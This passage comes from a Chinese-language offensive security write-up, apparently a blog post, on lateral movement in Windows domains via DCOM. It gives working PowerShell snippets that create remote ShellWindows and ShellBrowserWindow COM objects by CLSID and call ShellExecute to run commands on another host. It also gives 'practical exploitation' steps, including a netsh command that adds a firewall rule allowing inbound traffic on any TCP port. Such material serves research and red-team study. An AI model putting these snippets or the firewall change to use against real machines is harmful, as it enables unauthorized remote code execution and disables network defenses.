 操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-15/2-3.png)

Clinet端查看程序列表，启动的calc.exe用户名为test2(Client端当前登录用户为a)，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-15/2-4.png)

**2.调用'9BA05972-F6A8-11CF-A442-00A0C90A8F39'**

```
$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.0.2")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```

Clinet端查看程序列表，启动的calc.exe用户名为a（同Client端当前登录用户名相同），如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-15/2-5.png)

**注：**

以上两种方式适用于Win7-Win10


**3.调用'C08AFD90-F2A1-11D1-8455-00A0C91F3880'**


```
$com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"192.168.0.2")
$obj = [System.Activator]::CreateInstance($com)
$obj.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```

**注：**

该方法不适用于Win7，适用于Win10和Server2012 R2

## 0x03 实际利用思路
---

### 思路一：域环境未开启防火墙，直接使用

当然，需要获得域内置帐户administrator的口令

方法不再赘述

### 思路二：默认开启防火墙，本地修改配置关闭防火墙

这样，其他主机就可以远程操作该主机，可**分别**通过以下方式实现

**1、通过配置入站规则支持DCOM**

命令行开启任意端口的代码如下:

```
netsh advfirewall firewall add rule name="any" protocol=TCP dir=in localport=any action=allow
```
